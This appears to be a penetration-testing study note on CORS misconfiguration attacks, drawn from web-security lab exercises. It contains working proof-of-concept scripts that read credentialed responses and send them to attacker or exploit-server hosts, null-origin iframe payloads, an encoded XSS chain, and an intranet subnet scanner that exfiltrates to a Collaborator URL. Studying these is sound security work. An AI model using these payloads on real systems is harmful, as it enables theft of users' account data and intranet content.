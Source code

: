 >[!info] Pre-requisites:
>- [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md)
>- [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

# Common vulnerabilities

## Server-generated Access-Control-Allow-Origin using client Origin

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

Malicious request:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Response from the vulnerable server:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
<p>secret=My5up3r53cr3t</p>
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session. Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain and read the secret.

PoC:
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ada00b4035e168fc11116f900d60017.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

### CSRF and CORF thanks to the Simple Requests concept

CORS misconfigurations can be escalated to [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) and [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) thanks to the Simple Requests concept [^simple-req-cors].

[^simple-req-cors]: [Paul Gerste - Never Underestimate CSRF Why Origin Reflection Is a Bad Idea](../../Readwise/Articles/Paul%20Gerste%20-%20Never%20Underestimate%20CSRF%20Why%20Origin%20Reflection%20Is%20a%20Bad%20Idea.md)

## Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted.

Mistakes often arise when implementing CORS origin whitelists. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

>[!example]
>Suppose an application grants access to all domains ending in: `normal-website.com`.
>An attacker might be able to gain access by registering the domain: `hackersnormal-website.com`.
>
>Alternatively, suppose an application grants access to all domains beginning with `normal-website.com`.
>An attacker might be able to gain access using the domain: `normal-website.com.evil-user.net`

## Whitelisted null origin value

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

-   Cross-origin redirects.
-   Requests from serialized data.
-   Request using the `file:` protocol.
-   Sandboxed cross-origin requests.

If the server implements `Access-Control-Allow-Origin: null`, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header (e.g. sandboxed `<iframe>` ).

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Breaking TLS with poorly configured CORS and XSS

Even "correctly" configured [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md) establishes a trust relationship between two origins, if a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

The same logic can also be used to exploit application that rigorously employs HTTPS and also whitelists a trusted subdomain that is using plain HTTP. In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. 

>[!example]
>XSS on the trusted domain:
>![CORS3](../../zzz_res/attachments/CORS3.png)
>CORS trusts the vulnerable domain:
>![CORS4](../../zzz_res/attachments/CORS4.png)
>Exploit page sent to the victim which forces the redirect on the vulnerable page and triggers the cross-domain request
>```html
><script>document.location="http://stock.0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%30%61%64%64%30%30%36%34%30%33%37%63%64%65%65%34%63%36%62%33%38%35%66%63%30%30%62%36%30%30%63%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%65%64%30%30%65%32%30%33%64%63%64%65%30%36%63%36%37%66%38%34%30%64%30%31%37%34%30%30%62%63%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%6c%6f%67%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e%26%73%74%6f%72%65%49%64%3d%31&storeId=1"</script>
><!-- <script>document.location="http://stock.0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aed00e203dcde06c67f840d017400bc.exploit-server.net/log?key='+this.responseText;};</script>&storeId=1&storeId=1"</script> -->
>```

## CORS without credentials with intranet pivot attack

Without  `Access-Control-Allow-Credentials: true` the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

However, there is one common similar situation where an attacker can't access a website directly: when it's part of an organization's intranet. A cross-origin request within a private network may be as follows:

```http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

And the server responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

The application server is trusting resource requests from any origin without credentials. **If users within the private IP address space access the public internet** then a **CORS-based attack can be performed from the external** site that uses the victim's browser as a proxy **for accessing intranet resources** (it's like [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md) but using the victim's browser as proxy).

Scan a subnet and exfiltrate the page content:
```html
<html>
    <script>
        collaboratorURL = 'http://d4i329wl1e1wjgh7cec94oo51w7mvb.burpcollaborator.net'

        for (let i=0; i<256; i++){
            fetch('http://192.168.0.' + i + ':8080')
            .then(response => response.text())
            .then (text => {
                try {

                fetch(collaboratorURL + '?ip=' + 'http://192.168.0.' + i + "&code=" + encodeURIComponent(text))
                } catch(err){

                }
            })
        }
    </script>
</html>
```

# External Resources

- [Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)